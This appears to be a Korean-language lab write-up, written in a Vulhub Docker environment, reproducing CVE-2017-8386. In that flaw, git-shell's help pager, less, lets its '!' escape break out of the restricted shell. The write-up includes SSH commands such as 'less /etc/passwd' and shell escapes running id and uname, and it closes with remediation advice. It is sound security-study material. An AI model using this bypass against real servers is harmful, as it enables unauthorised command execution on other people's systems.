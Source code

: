 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론
`git clone https://github.com/phith0n/vulhub.git`


`cd vulhub/git/CVE-2017-8386/`

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
`docker-compose build`


`docker-compose up -d`


`docker ps`


	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록
`docker exec -it git-shell-cve-2017-8386 /bin/bash`


`chsh -s /bin/bash git`


`su git`


`mkdir -p ~/.ssh`


`chmod 700 ~/.ssh`


`touch ~/.ssh/authorized_keys`


`chmod 600 ~/.ssh/authorized_keys`


`vim ~/.ssh/authorized_keys`


### 2.6 추가 패키지 설치
`apt update`


`apt install less -y`


`apt install man-db -y`


	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
`ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"`


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 3.2 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 `git-upload-archive --help` 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
